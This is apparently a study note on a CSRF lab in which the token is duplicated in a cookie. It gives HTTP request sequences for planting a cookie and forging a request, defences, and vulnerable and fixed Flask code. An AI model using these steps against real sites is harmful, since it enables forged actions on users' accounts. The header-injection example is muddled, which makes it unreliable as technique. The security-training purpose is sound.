

## Lab Scenario: CSRF Token Duplicated in Cookie

### Understanding the Vulnerability

In this lab, we will exploit a CSRF vulnerability where the CSRF token is duplicated in a cookie. The steps to exploit this vulnerability involve:

1. Finding the location in the application to inject the CSRF cookie in the user session.
2. Crafting a CSRF attack to the victim with a known CSRF token.

### Step-by-Step Exploitation

#### Step 1: Identify the CSRF Cookie

First, we need to identify the CSRF cookie in the application. In this scenario, the CSRF cookie is named `csrf_token`.

```http
GET /search HTTP/1.1
Host: vulnerable-app.com
Cookie: csrf_token=abc123; session_id=def456
```

#### Step 2: Inject the CSRF Cookie

Next, we need to inject the CSRF cookie into the user's session. This can be done by exploiting a vulnerability in the application that allows for HTTP header injection.

```http
POST /search HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Cookie: csrf_token=abc123; session_id=def456
X-Custom-Header: Cookie: csrf_token=xyz789
```

#### Step 3: Craft the CSRF Attack

Now that the CSRF cookie is injected, we can craft a CSRF attack to the victim. The attack involves sending a request with the known CSRF token.

```http
POST /action HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Cookie: csrf_token=xyz789; session_id=def456
csrf_token=xyz789&data=some_data
```

### Full Example

Let's walk through a complete example of the CSRF attack.

#### Initial Search Request

The user performs a search, which creates a new cookie called `last_search_term`.

```http
GET /search?term=hat HTTP/1.1
Host: vulnerable-app.com
Cookie: csrf_token=abc123; session_id=def456
```

Response:

```http
HTTP/1.1 200 OK
Set-Cookie: last_search_term=hat; Path=/
```

#### Exploit HTTP Header Injection

We exploit the HTTP header injection vulnerability to inject the CSRF cookie.

```http
POST /search HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Cookie: csrf_token=abc123; session_id=def456
X-Custom-Header: Cookie: csrf_token=xyz789
```

#### Craft the CSRF Attack

Finally, we craft the CSRF attack using the injected CSRF token.

```http
POST /action HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Cookie: csrf_token=xyz789; session_id=def456
csrf_token=xyz789&data=some_data
```

### Mermaid Diagrams

#### CSRF Attack Flow



### Common Pitfalls

When exploiting CSRF vulnerabilities, several pitfalls can arise:

- **Incorrect Token Injection**: Ensure the CSRF token is correctly injected into the user's session.
- **Insufficient Validation**: Validate all user inputs to prevent header injection vulnerabilities.
- **Missing SameSite Attribute**: Ensure cookies have the `SameSite` attribute set to `Strict` or `Lax`.

### How to Prevent / Defend

#### Detection

To detect CSRF vulnerabilities, use automated tools such as:

- **Burp Suite**: Scan for CSRF vulnerabilities and test for header injection.
- **OWASP ZAP**: Automated scanner for web application vulnerabilities, including CSRF.

#### Prevention

To prevent CSRF attacks, implement the following measures:

- **CSRF Tokens**: Generate unique tokens for each user session and include them in forms and requests.
- **SameSite Cookie Attribute**: Set the `SameSite` attribute to `Strict` or `Lax` to prevent cross-site request forgery.
- **Referer Header Validation**: Validate the `Referer` header to ensure requests come from trusted sources.

#### Secure Coding Fixes

Compare the vulnerable and secure versions of the code.

**Vulnerable Code**

```python
@app.route('/search', methods=['POST'])
def search():
    term = request.form['term']
    response = make_response(render_template('search_results.html', term=term))
    response.set_cookie('last_search_term', term)
    return response
```

**Secure Code**

```python
@app.route('/search', methods=['POST'])
def search():
    term = request.form['term']
    csrf_token = generate_csrf_token()
    response = make_response(render_template('search_results.html', term=term, csrf_token=csrf_token))
    response.set_cookie('last_search_term', term, samesite='Strict')
    response.set_cookie('csrf_token', csrf_token, samesite='Strict')
    return response
```

### Hands-On Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers comprehensive labs on CSRF and other web security topics.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains numerous security vulnerabilities.

By thoroughly understanding and practicing these concepts, you can effectively defend against CSRF attacks and ensure the security of web applications.

---
<!-- nav -->
[[04-Lab Exercise CSRF Attack with Token Duplicated in Cookie|Lab Exercise CSRF Attack with Token Duplicated in Cookie]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/07-Lab 6 CSRF where token is duplicated in cookie/00-Overview|Overview]] | [[06-Referer Header Checks|Referer Header Checks]]
